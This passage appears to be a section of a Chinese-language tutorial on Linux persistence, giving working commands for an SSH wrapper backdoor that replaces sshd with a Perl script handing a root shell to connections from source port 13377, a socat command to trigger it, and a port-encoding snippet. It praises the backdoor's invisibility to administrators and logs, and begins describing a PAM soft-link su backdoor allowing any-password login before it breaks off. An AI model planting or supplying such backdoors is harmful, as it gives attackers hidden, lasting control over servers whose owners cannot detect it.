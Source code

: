 ### 0x04 SSH 后门

#### 4.1 SSH wrapper

判断连接来源端口，将恶意端口来源访问传输内容重定向到 / bin/sh 中:



```
cd /usr/sbin/
mv sshd ../bin/

echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd   //4A是13377的小端模式
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd

/etc/init.d/sshd restart


```

在本机执行:

```
socat STDIO TCP4:target\_ip:22,sourceport=13377


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165200237-492698024.png)

实现原理：init 首先启动的是 /usr/sbin/sshd , 脚本执行到 getpeername 这里的时候，正则匹配会失败，于是执行下一句，启动 /usr/bin/sshd ，这是原始 sshd 。原始的 sshd 监听端口建立了 tcp 连接后，会 fork 一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的 /usr/sbin/sshd ，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字， getpeername 能真的获取到客户端的 TCP 源端口，如果是 13377 就执行 sh 给个 shell。

想要修改连接端口的话可以利用 py 修改：

```
import struct
buffer = struct.pack('>I6',19526)
print repr(buffer)


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305165647857-2116649151.png)

优点：  
1、在无连接后门的情况下，管理员是看不到端口和进程的，last 也查不到登陆。  
2、在针对边界设备出网，内网 linux 服务器未出网的情况下，留这个后门可以随时管理内网 linux 服务器，还不会留下文件和恶意网络连接记录。

#### 4.2 SSH 软连接后门

软连接后门的原理是利用了 PAM 配置文件的作用，将 sshd 文件软连接名称设置为 su，这样应用在启动过程中他会去 PAM 配置文件夹中寻找是否存在对应名称的配置信息 (su)，然而 su 在 pam\_rootok 只检测 uid 0 即可认证成功，这样就导致了可以使用任意密码登录:
